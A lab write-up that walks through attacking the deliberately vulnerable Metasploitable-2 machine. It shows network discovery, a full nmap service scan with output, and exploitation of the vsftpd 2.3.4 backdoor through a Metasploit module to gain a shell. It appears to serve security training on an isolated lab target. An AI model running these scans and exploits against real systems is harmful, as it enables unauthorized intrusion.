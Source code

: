 # 🔍 Metasploitable-2 Write UP🔓🛡

### Getting the IP address of the target machine

I used arp-sca -l to get the local ip of the target machine 

> Target ip -> 192.168.100.8

### Scan the target machine using nmap

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/m3taspl1abl3]
└─$ nmap -sV 192.168.100.8 -o nmap_full_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 14:50 EDT
Nmap scan report for 192.168.100.8
Host is up (0.0026s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:CF:4C:27 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds



```

So here I got the many ports open to penetrate. Lets exploit it one by one

### Exploiting FTP
Here the version of ftp on target machine is vsftpd 2.3.4, lets search for any exploits that are available in metasploit console

![ftp exploit search](screenshots/exp1.png)

Here I got the the exploit using the search command in msfconsole, lets use it to exploit the target

```bash

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 


```

here we are ready with payload to exploit the target, now we have to set some parameters to run the exploit

use the `show option` command to get the options 

![payload options](screenshots/opt1.png)

Here it says we have to set rhost that is target ip, we can use

```bash
set rhost 192.168.100.8
```

and then run/exploit command to execute the payload on target machine

![ftp exploited](screenshots/ftp-done.png)

Here our exploit works and we got the reverse tcp shell of the target machine.


